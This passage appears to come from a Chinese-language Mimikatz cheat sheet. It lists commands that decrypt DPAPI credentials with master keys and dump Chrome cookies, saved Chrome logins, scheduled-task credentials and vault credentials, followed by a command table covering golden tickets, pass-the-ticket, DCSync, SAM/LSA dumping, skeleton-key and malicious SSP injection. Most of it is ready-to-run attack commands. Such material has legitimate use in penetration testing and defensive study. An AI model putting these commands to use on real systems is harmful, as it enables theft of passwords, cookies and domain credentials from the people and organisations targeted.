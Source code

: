 ```powershell
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b
```

### Chrome Cookies和凭据

```powershell
# 保存的Cookies
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
dpapi::chrome /in:"C:\Users\kbell\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:9a6f199e3d2e698ce78fdeeefadc85c527c43b4e3c5518c54e95718842829b12912567ca0713c4bd0cf74743c81c1d32bbf10020c9d72d58c99e731814e4155b

# Chrome中保存的凭据
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### 计划任务的凭据

```powershell
mimikatz(命令行) # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{CF3ABC3E-4B17-ABCD-0003-A1BA192CDD0B} / <NULL>
UserName   : DOMAIN\user
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Attributes : 0
```

### 保险箱

```powershell
vault::cred /in:C:\Users\demo\AppData\Local\Microsoft\Vault\"
```

## 命令列表

|            命令             | 定义                                                         |
| :-------------------------: | :----------------------------------------------------------- |
|    CRYPTO::Certificates     | 列出/导出证书                                                |
|    CRYPTO::Certificates     | 列出/导出证书                                                |
|      KERBEROS::Golden       | 创建金票/银票/信任票                                         |
|       KERBEROS::List        | 列出用户内存中的所有用户票据（TGT和TGS）。由于仅显示当前用户的票据，因此不需要特殊权限。类似于“klist”的功能。 |
|        KERBEROS::PTT        | 传递票据。通常用于注入被盗或伪造的Kerberos票据（金票/银票/信任票）。 |
|       LSADUMP::DCSync       | 请求DC同步对象（获取帐户的密码数据）。无需在DC上运行代码。   |
|        LSADUMP::LSA         | 请求LSA服务器检索SAM/AD企业（正常，即时修补或注入）。用于从域控制器或lsass.dmp转储文件中转储所有Active Directory域凭据。也用于获取特定帐户凭据，例如使用参数/name: “/name:krbtgt”获取krbtgt。 |
|        LSADUMP::SAM         | 获取SysKey以解密SAM条目（来自注册表或配置单元）。SAM选项连接到本地安全帐户管理器（SAM）数据库并转储本地帐户的凭据。这用于在Windows计算机上转储所有本地凭据。 |
|       LSADUMP::Trust        | 请求LSA服务器检索信任授权信息（正常或即时修补）。转储所有关联信任（域/森林）的信任密钥（密码）。 |
|        MISC::AddSid         | 将SIDHistory添加到用户帐户。第一个值是目标帐户，第二个值是帐户/组名称（或SID）。已于2016年5月6日移至SID:modify。 |
|        MISC::MemSSP         | 注入恶意Windows SSP以记录本地验证的凭据。                    |
|       MISC::Skeleton        | 将Skeleton Key注入域控制器的LSASS进程。这使得所有用户对Skeleton Key修补的DC的身份验证都能使用“主密码”（又名Skeleton Keys）以及他们的常规密码。 |
|      PRIVILEGE::Debug       | 获取调试权限（此权限或本地系统权限是许多Mimikatz命令所需的）。 |